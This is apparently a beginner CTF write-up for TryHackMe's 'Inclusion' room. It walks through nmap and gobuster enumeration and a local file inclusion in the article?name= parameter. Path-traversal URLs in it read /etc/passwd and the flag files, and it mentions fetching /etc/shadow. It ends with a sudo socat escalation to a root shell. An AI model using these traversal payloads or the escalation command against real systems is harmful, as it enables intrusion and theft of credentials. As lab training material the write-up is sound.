





# Inclusion

- TryHackMe room: <https://tryhackme.com/room/inclusion>
- OS: `Linux (Ubuntu)`

A beginner level LFI challenge.


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration](#enumeration)
- [Looking on the webserver](#looking-on-the-webserver)
- [Grabbing user.txt and root.txt flags](#grabbing-usertxt-and-roottxt-flags)
- [Extra bits](#extra-bits)

## Setup

```commandline
$ export IP_TARGET=10.10.208.207
$ export WRITEUP="$HOME/Documents/THM/inclusion/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

| Name | Usage |
|---|---|
| `nmap` | Port & services enumeration |
| `gobuster` | Web server enumeration |

## Enumeration

Started a `nmap` scan:

````commandline
# nmap -sCV -A $IP_TARGET 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 15:16 CEST
Nmap scan report for 10.10.208.207
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/18%OT=22%CT=1%CU=38644%PV=Y%DS=2%DC=T%G=Y%TM=6145E6C
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   28.07 ms 10.8.0.1
2   28.47 ms 10.10.208.207

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.99 seconds
````

Enumerating the web server did not reveal anything actualy.

````commandline
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP_TARGET
````

## Looking on the webserver

The website looks like to be a blog style. Nothing fancy but clean. Front page, pointing to 3 different articles.



When clicking onto an article, load up something's like a plain text page. Which could give us the big hint that this website is loading up a real text file from the system. In other words, pointing to a file.

Interesting to see, is of course the content of these page, as they contain valuable information and with a "Taken from ...". I have put the links below.



- Hacking this world - <https://www.guru99.com/what-is-hacking-an-introduction.html>
- LFI-attack - <https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/>
- RFI-attack - <https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/>

But the real interesting part here in the hacking process is the URL itself. <http://10.10.208.207/article?name=hacking>. The article named `hacking` is a real (text) file on the system and not a reference to something in some kind or database. Knowing this, we know the system is subject to the `LFI (Local File Inclusion)` vulnerability. Instead of using the article's file name that the different links on the website provide us, we can put the path of a file name present on the system.

## Grabbing user.txt and root.txt flags

We know there is an `LFI (Local File Inclusion)` vulnerability with this system, and to make use of this, it is a bit of trial and error to get the content of the file we want. If we use the wrong path, we will get an HTTP status of 500 (Internal Server Error). So, we know we need to try again.



Going to: <http://10.10.208.207/article?name=../../../etc/passwd> reveals us the content of the `/etc/passwd` file of that system, thus all the available usernames on this system.



However, it is better to look at the source view of this page, as the source view will keep a better formatting style. This is especially crucial for readability, but also for copy & paste tricks without the need to reformat too much. For example if we want to copy the user's `ssh` `id_rsa` file. However, In this situation, this use does not have a `.ssh` folder in his home directory. 



Knowing the username, we can actually grab the `user.txt` file (the ctf flag) by browsing to <http://10.10.208.207/article?name=../../../home/falconfeast/user.txt>

    60*****511839*****99

In this case, we can also grab the `root.txt` flag the same way: <http://10.10.208.207/article?name=../../../root/root.txt>

    42*****484549*****09

But actually, in this situation, the password of the `falconfeast` user is even commented out in the `/etc/passwd` file. Logging in with ssh for this username and password works.

## Extra bits

We could eventually also grab the `/etc/shadow` file with the same method as described before, to get the hashes of the `root` user and the `falconfeast` user and try to crack it. But this is absolutely not needed to finish this CTF room. And there are more easy ways.

We can log in with user `falconfeast` over `ssh` and use the password indicated in plaintext in the `/etc/password` file.

Once logged in with that user, we can do some easy vertical privilege escalation by making use of `sudo`. As this user seems to be able to run `socat` with `root` privileges.

````commandline
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
````

Looking up on [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo) about a method to escalated by using `socat` and we obtain root privileges.

````commandline
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh

whoami
root
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
